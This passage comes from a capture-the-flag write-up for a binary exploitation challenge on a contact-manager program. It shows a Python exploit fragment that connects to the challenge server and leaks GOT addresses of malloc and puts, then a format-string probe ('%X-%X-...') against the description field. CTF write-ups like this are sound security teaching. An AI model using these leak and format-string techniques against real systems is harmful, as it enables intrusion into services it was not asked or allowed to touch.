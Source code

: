 ```python
    global s
    global last_addr
    last_addr = 0
    s=socket(AF_INET, SOCK_STREAM)
    #s.connect(('127.0.0.1', 4444))
    s.connect(('54.165.223.128', 2555))
    readtil('>>> ')
    
    # create contact 1
    sendln('1')
    readtil('Name: ')
    sendln('BAR1')
    readtil('Phone No: ')
    sendln('0')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLEH')
    
    readtil('>>> ')
    
    # create contact 2
    sendln('1')
    readtil('Name: ')
    sendln('BAR2')
    readtil('Phone No: ')
    sendln('1')
    readtil('description: ')
    sendln('100')
    readtil('description:')
    sendln('BLAH')
    
    readtil('>>> ')

    malloc = leak4(0x804b020)
    print "[+] malloc @ " + hex(malloc)
    puts = leak4(0x804b024)
    print "[+] puts   @ " + hex(puts)
```

This gave us two addresses, and [libcdb.com](http://libcdb.com/) gave us no less than five options. We logged back into the server for pwn100, which had a different IP address so was probably a differnent box. We figured that the CTF organizers used the same base image for each box. The symbols of the libc on pwn100's box seemed to match what we found via the leak and we just got the address of system from that machine.

Now, we needed a way to write to the got. Turns out there was another format string vulnerability in the description field:

```
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 1
Contact info: 
    Name: BAR1
[DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
    Enter Phone No: 0
    Length of description: 100
    Enter description:
        %X-%X-%X-%X-%X-%X
```